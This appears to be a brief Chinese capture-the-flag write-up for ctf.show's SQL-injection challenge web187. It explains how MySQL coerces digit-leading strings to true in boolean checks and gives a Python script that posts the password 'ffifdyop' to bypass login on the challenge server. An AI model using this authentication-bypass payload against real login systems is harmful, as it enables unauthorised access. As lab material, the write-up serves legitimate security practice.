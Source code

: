 > 在mysql里面，在用作布尔型判断时，以1开头的字符串会被当做整型数。要注意的是这种情况是必须要有单引号括起来的，比如password=‘xxx’ or ‘1xxxxxxxxx’，那么就相当于password=‘xxx’ or 1 ，也就相当于password=‘xxx’ or true，所以返回值就是true。当然在我后来测试中发现，不只是1开头，只要是数字开头都是可以的。
> 当然如果只有数字的话，就不需要单引号，比如password=‘xxx’ or 1，那么返回值也是true。（xxx指代任意字符）

```
import requests

url = 'http://ba40e41c-7293-4031-bc46-860fbc112f03.challenge.ctf.show/select-waf.php'
url2 = ' http://ba40e41c-7293-4031-bc46-860fbc112f03.challenge.ctf.show/api/'

payload = {
    "username":"admin",
    "password":"ffifdyop"
}

#r = requests.post(url=url,data=payload)
res = requests.post(url=url2,data=payload).text

print(res)

```

![](.\SQL注入\web187\web187.png)
